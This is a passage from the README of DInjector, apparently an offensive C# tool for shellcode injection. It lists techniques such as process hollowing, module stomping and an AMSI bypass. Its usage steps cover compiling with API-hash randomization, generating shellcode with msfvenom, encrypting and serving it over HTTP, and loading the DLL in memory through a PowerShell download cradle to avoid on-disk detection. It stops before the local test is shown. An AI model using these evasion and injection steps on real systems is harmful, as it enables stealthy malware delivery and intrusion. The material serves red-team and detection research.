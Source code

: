     + [RemoteThreadSuspended](#remotethreadsuspended)
    + [RemoteThreadKernelCB](#remotethreadkernelcb)
    + [RemoteThreadAPC](#remotethreadapc)
    + [RemoteThreadContext](#remotethreadcontext)
    + [ProcessHollowing](#processhollowing)
    + [ModuleStomping](#modulestomping)
    + [Utils](#utils)
      - [AM51](#am51)
      - [SpawnProcess](#spawnprocess)
      - [Unhooker](#unhooker)
  * [Credits](#credits)

## Basic Usage

1. Compile the project in Visual Studio (1) or via [OffensivePipeline](https://github.com/snovvcrash/OffensivePipeline) (2):

```console
PS (1) > git clone -b dev --single-branch https://github.com/snovvcrash/DInjector.git
PS (1) > cd DInjector/DInjector
PS (1) > python .\randomize_api_hashing.py
PS (1) > devenv /build Release DInjector.sln
PS (1) > ls .\bin\Release\DInjector.dll

PS (2) > curl https://github.com/snovvcrash/OffensivePipeline/releases/download/v0.8.2/OffensivePipeline_v0.8.2_DInjector.zip -o OffensivePipeline.zip
PS (2) > Expand-Archive .\OffensivePipeline.zip -DestinationPath .\OffensivePipeline
PS (2) > cd OffensivePipeline
PS (2) > .\OffensivePipeline.exe t DInjector
PS (2) > ls .\Output\DInjector_*\DInjector.dll
```

2. Generate a shellcode of your choice:

```console
~$ msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f raw -o shellcode.bin
```

3. [Encrypt](encrypt.py) the shellcode:

```console
~$ ./encrypt.py shellcode.bin -p 'Passw0rd!' -o enc
```

4. Serve the encrypted shellcode:

```console
~$ sudo python3 -m http.server 80
```

5. Use the PowerShell download [cradle](/cradle.ps1) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

:warning: The assembly will very likely be flagged if put on disk!

Test it locally with PowerShell:
